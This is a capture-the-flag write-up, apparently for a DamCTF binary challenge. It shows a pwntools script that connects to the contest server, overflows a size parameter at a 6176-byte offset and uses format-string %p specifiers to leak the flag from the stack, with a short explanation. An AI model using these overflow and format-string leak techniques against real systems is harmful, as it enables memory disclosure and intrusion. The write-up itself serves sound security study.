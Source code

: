 ### Exploit ###

```
from pwn import *

p = remote("chals.damctf.xyz", 30234)
context.terminal = ["tmux", "splitw", "-h"]
gdbscript = """
    br *main+29
    br find_match
"""
payload = b"Go north\x00" + cyclic(6176 - 9) + p64(21)
for i in range(200):
    payload += b"%" + str(9818+i).encode() + b"$p|"
p.sendline(payload)
p.recvuntil(b"2: Go south\n")
out = "".join(p.recvline().decode().split(":")[:-1])
out = out.split("|")
ans = []
for val in out:
    try:
        ans.append(p64(int(val, 16)).decode())
    except:
        break
print("".join(ans))
p.interactive()
```

In this exploit, we first overflow the size parameter that gets passed in ```find_match```, that is located at an offset of 6176 from our buffer. In order to return ```0x14```, I found that the string needs to be ```Go north\x00``` and the flag is located as an argument 9818 and so on in the stack.